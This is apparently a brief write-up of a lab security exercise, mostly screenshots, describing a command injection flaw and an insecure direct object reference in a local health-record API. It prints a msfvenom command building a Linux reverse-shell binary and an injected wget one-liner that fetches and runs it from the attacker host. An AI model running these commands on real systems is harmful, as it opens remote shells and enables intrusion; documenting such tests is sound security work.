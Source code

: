 ![image](https://github.com/user-attachments/assets/c7470cde-8c47-48a6-90cb-367623fb33a0)

Exploiting the Command injection VUlnerailites


This was done by using the command ls
![image](https://github.com/user-attachments/assets/b19d6cd8-18c6-4d95-960f-0ae87670d4b4)



Getting a reverse shell
 
Then which sh
![image](https://github.com/user-attachments/assets/0d19245f-df6f-490f-befc-daab2194951f)

nc 
![image](https://github.com/user-attachments/assets/7c3f2194-7a11-4663-b6ee-9161940d0ea5)


all the above binary were present but didnt work
sh throwing erro

![image](https://github.com/user-attachments/assets/27a4698a-6592-4940-a468-38889372839f)


nc throwing error

![image](https://github.com/user-attachments/assets/5949dd6a-7752-4e21-8180-b8685d9135ed)

This was finally done by using a static linux binary created using msfconsole and wget 

`msfvenom -p linux/x64/shell_reverse_tcp  LHOST=172.22.0.1  LPORT=2294 -f elf -o shell.elf`

this was what was used eventually
wget http://172.22.0.1/shell.elf -O /tmp/shell; chmod +x /tmp/shell; /tmp/shell

wget showig blank after reverse shell has worked 
![image](https://github.com/user-attachments/assets/857beee2-5ab7-4ccc-a306-ba9b5aeb814e)

shell gained 
![image](https://github.com/user-attachments/assets/931e07d6-0e0a-41eb-9029-d5f7333ecffb)
  


IDOR
This works by just changing the value after "record" in http://127.0.0.1:3001/api/health/record/2
![image](https://github.com/user-attachments/assets/57a8849d-33de-465d-909e-3c4cd4b224b5)


or  by changgint the ministry

![image](https://github.com/user-attachments/assets/11de61f1-cb93-4fdc-aaae-10d9b8182bcf)


